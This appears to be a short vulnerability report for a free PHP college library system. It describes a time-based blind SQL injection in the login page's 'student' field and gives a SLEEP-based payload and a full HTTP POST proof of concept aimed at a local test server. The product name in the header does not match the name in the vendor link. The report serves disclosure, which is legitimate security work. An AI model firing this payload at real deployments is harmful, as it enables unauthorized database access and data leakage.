

# Vulnerability Description

The Web-based Student Clearance System in PHP Free Source Code  (It is an open source project from [https://www.campcodes.com/](https://www.campcodes.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: Jing Xiong

2. vendors: [Online College Library System using PHP/MySQLi Source Code](https://www.campcodes.com/projects/php/librarysystemusingphp/);

3. The program is built using the PHP/8.1.10 version;

4. Vulnerability location:  /libsystem/login.php

# Vulnerability Verification

[+] Payload:

```java
student=RIDM' AND (SELECT 8259 FROM (SELECT(SLEEP(5)))rJcs) AND 'okDV'='okDV&login=tiZF
```

POC：

```js
POST /login.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 134
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=4dq7vcodkmkfafhok7fkld9s4r
Host: 127.0.0.1:8081
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/index.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

student=student%3DRIDM%27+AND+%28SELECT+8259+FROM+%28SELECT%28SLEEP%285%29%29%29rJcs%29+AND+%27okDV%27%3D%27okDV%26login%3DtiZF&login=
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：



